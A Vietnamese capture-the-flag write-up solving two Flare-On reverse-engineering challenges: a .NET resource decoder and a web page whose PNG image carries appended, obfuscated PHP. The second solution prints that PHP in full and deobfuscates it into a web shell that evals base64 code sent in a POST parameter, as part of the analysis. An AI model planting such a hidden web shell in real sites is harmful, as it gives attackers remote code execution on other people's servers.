






## Challenge 1
### Solution
- Với bài này challenge cho ta 1 file exe mở file lên
- Ở step đầu tiên ta thấy 1 bức ảnh với nút decode phía dưới 
- 
- Sau khi nhấn decode, 1 chuỗi kí tự không xác định hiện ra, có vẻ nó đã bị lỗi
- 
- Kiểm tra file exe này, ta sử dụng Detect it easy, ta biết rằng file này được viết bằng NET
- 
- Ta sử dụng dnSpy để phân tích, load lên dnSpy ta dễ dàng thấy được 1 hàm đecode như sau:
```
		private void btnDecode_Click(object sender, EventArgs e)
		{
			this.pbRoge.Image = Resources.bob_roge;
			byte[] dat_secret = Resources.dat_secret;
			string text = "";
			foreach (byte b in dat_secret)
			{
				text += (char)((b >> 4 | ((int)b << 4 & 240)) ^ 41);
			}
			text += "\0";
			string text2 = "";
			for (int j = 0; j < text.Length; j += 2)
			{
				text2 += text[j + 1];
				text2 += text[j];
			}
			string text3 = "";
			for (int k = 0; k < text2.Length; k++)
			{
				char c = text2[k];
				text3 += (char)((byte)text2[k] ^ 102);
			}
			this.lbl_title.Text = text3;
		}
```
- Dữ liệu của dat_secret được lấy từ file dat_secret trong Resources
- Mình sẽ lấy file dat_secret trong đó và viết 1 script nhỏ để xem nó có gì 
```
with open('dat_secret', 'rb') as file:
    dat_secret = file.read()

text = ""
for b in dat_secret:
    text += chr(((b >> 4) | ((b << 4) & 240)) ^ 41)

text += "\0"
text2 = ""
for j in range(0, len(text), 2):
    text2 += text[j + 1]
    text2 += text[j]

text3 = ""
for c in text2:
    text3 += chr(ord(c) ^ 102)

print(text3)

```
- 
- 
- Đây chính là đoạn mã hiển thị ban nãy, mình sẽ in tất cả những dữ liệu ra để tiến hành xác định xem hàm này lỗi từ đâu thì có flag =)))
```
with open('dat_secret', 'rb') as file:
    dat_secret = file.read()

text = ""
for b in dat_secret:
    text += chr(((b >> 4) | ((b << 4) & 240)) ^ 41)
    print(text)
text += "\0"
text2 = ""
for j in range(0, len(text), 2):
    text2 += text[j + 1]
    text2 += text[j]
    print(text2)

text3 = ""
for c in text2:
    text3 += chr(ord(c) ^ 102)
    print(text3)
```
- 
> Flag : 3rmahg3rd.b0b.d0ge@flare-on.com

## Challenge 2
### Solution
- Ở bài này ta được cho các file của 1 trang web bao gồm file html và folder image
- Mở trực tiếp lên thì không có gì khả nghi
- 
- Bây giờ ta sẽ đi sâu vào phân tích nó bằng notepad
- Nhìn chung thì cũng không có gì tuy nhiên có 1 đoạn script js khá lạ 
```
    <script type="text/javascript">!function(s){function a(a){a.addClass("countdownHolder"),s.each(["Days","Hours","Minutes","Seconds"],function(t){var n;n="Days"==this?"DAYS":"Hours"==this?"HRS":"Minutes"==this?"MNTS":"SECS",s('<div class="count'+this+'"><span class="position"><span class="digit static">0</span></span><span class="position"><span class="digit static">0</span></span><span class="boxName"><span class="'+this+'">'+n+"</span></span>").appendTo(a),"Seconds"!=this&&a.append('<span class="points">:</span><span class="countDiv countDiv'+t+'"></span>')})}function t(a,t){var n=a.find(".digit");if(n.is(":animated"))return!1;if(a.data("digit")==t)return!1;a.data("digit",t);var i=s("<span>",{"class":"digit",css:{top:0,opacity:0},html:t});n.before(i).removeClass("static").animate({top:0,opacity:0},"fast",function(){n.remove()}),i.delay(100).animate({top:0,opacity:1},"fast",function(){i.addClass("static")})}var n=86400,i=3600,o=60;s.fn.countdown=function(c){function e(s,a,n){t(r.eq(s),Math.floor(n/10)%10),t(r.eq(a),n%10)}var p,d,l,u,f,r,h=s.extend({callback:function(){},timestamp:0},c);return a(this,h),r=this.find(".position"),function m(){p=Math.floor((h.timestamp-new Date)/1e3),0>p&&(p=0),d=Math.floor(p/n),e(0,1,d),p-=d*n,l=Math.floor(p/i),e(2,3,l),p-=l*i,u=Math.floor(p/o),e(4,5,u),p-=u*o,f=p,e(6,7,f),h.callback(d,l,u,f),setTimeout(m,1e3)}(),this}}(jQuery);</script><?php include "img/flare-on.png" ?>


    <script type="text/javascript">
        $(document).ready(function(){
            $('#counter').countdown({
                timestamp : new Date(2014,6,7,4,0,0,0)
            });
        });
    </script>
```
- Nhìn sơ qua ta có thể thấy rằng nó chỉ là 1 đoạn script đếm ngược thời gian, tuy nhiên nó lại có 1 dòng thực thi file `flare-on.png` là `<?php include "img/flare-on.png" ?>`
- Ta sẽ xem thử file ảnh này bằng hex code trước
- Kéo xuống dưới, ta thấy rõ ràng chúng chèn 1 đoạn code php vào đây
- 
```
<?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>
```
- Có vẻ nó bị obfuscation code, mình sẽ sửa nó lại 1 tí
```
terms=["M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|"]
order=[59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47]
do_me=""
for i in range(0, len(order)):
    do_me=do_me + terms[order[i]]
print(do_me)
```
- Và kết quả là:
```
$_= 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
```
- Nó lại bị obfuscation 1 lần nữa, mình sẽ sửa lại bằng tay
```
var1= if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) { eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }
var3=$code=base64_decode(var1);eval($code);;
var2="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";
eval(var2(var3));
```
- Nhận thấy rằng nó thực thi các yêu cầu bị mã hoá (những chuỗi có dấu x sẽ được mã hoá bằng hex, những chuỗi không có sẽ được mã hoá bằng decimal hoặc octal)
- Bây giờ ta decode từng chuỗi 
```
decode = ""
inp = r'\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D'
inp_lst = inp.split('\\')
#print(inp_lst)
for index in inp_lst:
    if index != '':
        if index[0] == 'x':
            byte_data = bytes.fromhex(index[1:])
            ascii_string = byte_data.decode('ascii')
            decode = decode + ascii_string
        else:
            #print(index)
            decode = decode + chr(int(index, 10))
print(decode)
```
- Tại đây ta có flag
> a11DOTthatDOTjava5crapATflareDASHonDOTcom

> Flag : a11.that.java5crap@flare-on.com
